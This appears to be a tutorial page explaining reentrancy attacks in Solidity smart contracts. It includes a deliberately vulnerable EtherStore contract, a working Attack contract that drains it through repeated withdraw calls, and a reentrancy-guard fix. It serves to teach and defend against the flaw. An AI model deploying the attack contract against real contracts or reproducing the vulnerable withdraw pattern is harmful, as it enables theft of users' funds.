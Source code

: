 Reentrancy occurs when external contract calls are allowed to make new calls to the calling contract before the initial execution is complete. For a function, this means that the contract state may change in the middle of its execution as a result of a call to an untrusted contract or the use of a low level function with an external address.

## Example

Let's say that contract A calls contract B.

Reentracy exploit allows B to call back into A before A finishes execution.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Preventative Techniques

Ensure all state changes happen before calling external contracts
Use function modifiers that prevent re-entrancy
Here is a example of a re-entracy guard

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

Example taken from [Solidity by Example](https://solidity-by-example.org/hacks/re-entrancy/)

#

- [SWC Registry: Reentrancy](https://smartcontractsecurity.github.io/SWC-registry/docs/SWC-107)
- [Sigmaprime: Reentrancy](https://blog.sigmaprime.io/solidity-security.html#reentrancy)
- [Trail of Bits: Reentrancy](https://github.com/crytic/not-so-smart-contracts/tree/master/reentrancy)
